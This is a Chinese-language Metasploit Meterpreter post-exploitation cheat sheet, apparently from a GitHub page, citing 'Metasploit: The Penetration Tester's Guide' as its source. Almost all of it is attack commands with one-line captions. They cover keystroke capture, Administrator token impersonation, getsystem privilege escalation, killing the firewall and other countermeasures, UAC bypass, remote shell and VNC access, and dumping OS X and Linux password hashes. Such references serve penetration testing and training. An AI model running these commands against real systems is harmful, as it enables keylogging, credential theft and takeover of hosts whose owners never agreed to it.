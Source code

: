 针对一个特定的进程捕获目标主机上的键盘记录：
```bash
meterpreter > ps
meterpreter > migrate 1436
meterpreter > keyscan_start
meterpreter > keyscan_dump
meterpreter > keyscan_stop
```

用匿名方式来假冒管理员：
```bash
meterpreter > use incognito
meterpreter > list_tokens -u
meterpreter > use priv
meterpreter > getsystem
meterpreter > list_tokens -u
meterpreter > impersonate_token IHAZSECURITY\\Administrator
```

查看目标主机都采取了哪些防护措施，列出帮助菜单，关闭防火墙以及其他我们发现的防护措施：
```bash
meterpreter > run getcountermeasure
meterpreter > run getcountermeasure -h
meterpreter > run getcountermeasure -d -k
```

识别被控制的主机是否是一台虚拟机：
```bash
meterpreter > run checkvm
```

在一个Meterpreter会话界面中使用cmd shell：
```bash
meterpreter > shell
```

获取目标主机的图形界面（VNC）：
```bash
meterpreter > run vnc
```

使正在运行的Meterpreter界面在后台运行：
```bash
meterpreter > background
```

绕过Windows的用户账户控制（UAC）机制：
```bash
meterpreter > run post/windows/escalate/bypassuac
```

导出苹果OS-X系统的口令哈希值：
```bash
meterpreter > run post/osx/gather/hashdump
```

导出Linux系统的口令哈希值：
```bash
meterpreter > run post/linux/gather/hashdump
```

----------

## 参考

1. 《Metasploit渗透测试指南》附录B
2. 《Metasploit-The Penetration Tester's Guide》B:Cheat Sheet